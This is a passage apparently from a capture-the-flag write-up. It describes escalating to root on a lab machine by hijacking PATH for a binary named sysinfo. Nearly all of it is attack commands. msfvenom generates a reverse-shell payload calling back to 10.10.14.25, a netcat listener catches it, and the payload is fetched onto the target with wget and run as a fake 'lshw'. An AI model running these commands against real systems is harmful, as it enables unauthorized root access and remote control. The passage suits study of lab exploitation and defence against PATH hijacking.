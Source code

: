 ```bash
lshw
fdisk
cat
free
```

Use this to get a reverse shell as `root`:

```bash
# run on kali
msfvenom -p linux/x86/shell_reverse_tcp \
         LHOST=10.10.14.25 \
         LPORT=7777 \
         -f elf \
         -o bubba.root.elf
nc -nvlp 7777
sudo python3 -m http.server 80
# run on target as theseus
wget -O /dev/shm/lshw 10.10.14.25/bubba.root.elf
chmod +x /dev/shm/lshw
PATH=/dev/shm/ /bin/sysinfo &
```

![root1](./magic/root1.png)

